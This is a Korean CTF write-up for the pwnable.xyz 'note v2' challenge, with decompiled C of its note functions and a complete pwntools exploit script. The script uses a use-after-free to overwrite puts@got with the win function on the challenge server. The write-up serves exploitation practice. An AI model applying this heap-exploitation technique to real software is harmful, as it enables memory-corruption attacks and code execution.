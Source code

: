 ```yaml
---
title: "[pwnable.xyz]note v2"
date: 2020-2-21
ctf: Pwnable.xyz
layout: post
---
```


size, title, note 입력받는데 title하고 note 따로 따로 malloc해준다.

```c
int make_note()
{
  _QWORD *v0; // rax
  int v1; // eax
  __int64 v2; // rcx
  int v4; // [rsp+4h] [rbp-Ch]
  void **buf; // [rsp+8h] [rbp-8h]

  if ( count <= 32 )
  {
    printf("size of note: ");
    v4 = read_int32();
    buf = (void **)malloc(40uLL);
    if ( !buf[4] )
      buf[4] = malloc(v4);
    printf("title: ");
    read(0, buf, 32uLL);
    printf("note: ", buf);
    read(0, buf[4], v4 - 1);
    v1 = count++;
    v2 = v1;
    v0 = book;
    book[v2] = buf;
  }
  else
  {
    LODWORD(v0) = puts("Limit reached.");
  }
  return (signed int)v0;
}
```

edit함수인데 make_note함수에서 입력한 길이만큼 바꿀 수 있다. 

```c
ssize_t edit_note()
{
  ssize_t result; // rax
  size_t v1; // rax
  ssize_t v2; // [rsp+8h] [rbp-8h]

  result = get_note();
  v2 = result;
  if ( result )
  {
    printf("Title %s: ", result);
    v1 = strlen(*(const char **)(v2 + 32));
    result = read(0, *(void **)(v2 + 32), v1);
  }
  return result;
}
```

delete함수는 note를 free해준다. 그리고 0으로 초기화해준다.

```c
_QWORD *delete_note()
{
  _QWORD *result; // rax
  int v1; // eax
  __int64 v2; // rdx

  result = (_QWORD *)get_note();
  if ( result )
  {
    free((void *)result[4]);
    v1 = count--;
    v2 = v1;
    result = book;
    book[v2] = 0LL;
  }
  return result;
}
```

title이랑 note 출력해준다.

```c
int print_note()
{
  __int64 v0; // rax

  v0 = get_note();
  if ( v0 )
    LODWORD(v0) = printf("%s : %s\n", v0, *(_QWORD *)(v0 + 32));
  return v0;
}
```

title은 free를 안해주고 note만 free해준다. 이게 32바이트 꽉채운 다음에 heap주소 저장된거 leak할 수 있긴한데 별로 쓸모 없다. 그리고 tcache unsorted bin attack으로 main_arena leak 가능하긴한데 이것도 별로 쓸모없다. 

그냥 간단하게 UAF 취약점이 터져서 puts@got를 win으로 덮어줬다.

> exploit.py

```python
from pwn import *

context.log_level = 'debug'
e = ELF('./challenge')
#p = process('./challenge')
p = remote('svc.pwnable.xyz',30030)
sa = lambda x,y : p.sendafter(x,y)
sla = lambda x,y : p.sendlineafter(x,y)
count = 0x0000000000602264
book = 0x0000000000602280
win = e.symbols['win']

def quit():
	sa('>','0')

def make(size,title,note):
	sa('>','1')
	sa(':',str(size))
	sa(':',title)
	sa(':',note)

def edit(idx,note):
	sa('>','2')
	sa(':',str(idx))
	sa(':',note)

def delete(idx):
	sa('>','3')
	sa(':',str(idx))

def printf(idx):
	sa('>','4')
	sa(':',str(idx))

make(0x420,'A'*4,p64(e.got['puts'])*10)
make(32,'B'*4,'C'*4)
delete(0) # -> unsorted bin
make(0x420,'D'*8,p64(win))
sla('>','99999')

p.interactive()
```


